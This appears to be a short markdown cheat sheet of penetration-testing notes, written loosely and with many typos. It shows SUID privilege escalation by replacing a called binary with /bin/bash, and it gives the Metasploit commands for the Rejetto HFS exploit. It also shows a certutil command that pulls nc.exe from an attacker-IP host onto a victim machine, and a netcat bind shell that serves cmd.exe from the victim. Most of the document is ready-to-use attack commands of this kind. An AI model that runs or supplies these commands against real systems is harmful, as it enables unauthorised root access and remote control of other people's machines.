 #### Exploiting SUID Binaries

```shell
ls -al
```
> if you see `s` in permissions than it give SUID permissions

```shell
strings <file-name>
```
> in this we wrtie a that file that have `s` permissions. see if if called some binary like greetings binary so replace the greetings binary with some other binary (say /bin/bash) which should then also get executed as root.

```shell
rm greetings
cp /bin/bash greetings
./<file-name>
```

#### Exploit HTPP file server rejetto

```shell
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <target-IP>
run
```
> exploit the rejetto vulnerability


#### GUI metasploit

```shell
service postgresql start
msfconsole
armitage
```
> lounch the GUI of metasploit



#### Netcat & blind shell

```shell
nc -nvlp <port>
```
> list that given port

- first we send the nc.exe to the target system
- `/usr/share/windows-binaries` is the path of nc.exe and use `python -m SimpleHTTPServer 80` then open target browser entry attacker ip and download nc.exe
- `certutil -urlcache -f http://<attacker-IP>/nc.exe nc.exe` run this on victum system cmd to get the nc.exe instead of open browser and enter ip to dowload

***for Window***

```shell
nc.exe -nvlp 1234 -e cmd.exe
```
> run on victum system cmd (window)
